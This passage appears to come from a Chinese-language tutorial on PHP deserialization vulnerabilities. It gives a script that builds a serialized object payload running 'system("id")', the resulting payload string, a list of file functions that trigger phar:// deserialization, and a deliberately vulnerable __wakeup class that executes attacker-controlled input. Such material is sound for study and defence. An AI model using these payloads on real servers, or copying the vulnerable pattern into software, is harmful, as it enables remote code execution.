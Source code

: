 生成payload代码：

```
<?php
class test{
var $code;
var $m;
function __construct($code, $m){
$this->code = $code;
$this->m = $m;
}
}
$a = new test('id', 'system');
echo serialize($a);
?>
```

生成payload为：

```
O:4:"test":2:{s:4:"code";s:2:"id";s:1:"m";s:6:"system";}
```

执行效果：

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyvr45w4llj21fi0hxwgc.jpg)

**②phar伪协议触发**

**利用条件：**

- phar文件要能够上传到服务器端
  要有可用的魔术方法作为“跳板”
  文件操作函数的参数可控，且:、/、phar等特殊字符没有被过滤

可利用的文件操作函数：
fileatime、filectime、file_exists、file_get_contents、file_put_contents、file、filegroup、fopen、fileinode、filemtime、fileowner、fileperms、is_dir、is_executable、is_file、is_link、is_readable、is_writable、is_writeable、parse_ini_file、copy、unlink、stat、readfile、md5_file、filesize

```
file_get_contents('phar://phar.phar/test.txt')
```

上述代码会自动进行反序列化操作
存在漏洞代码：

```PHP
<?php
class test{
function __wakeup(){
$p = $this->m;
$q = $this->code;
$p($q);
}
}
$a = getenv('HTTP_TEST');
$b = file_get_contents($a);
?>
```
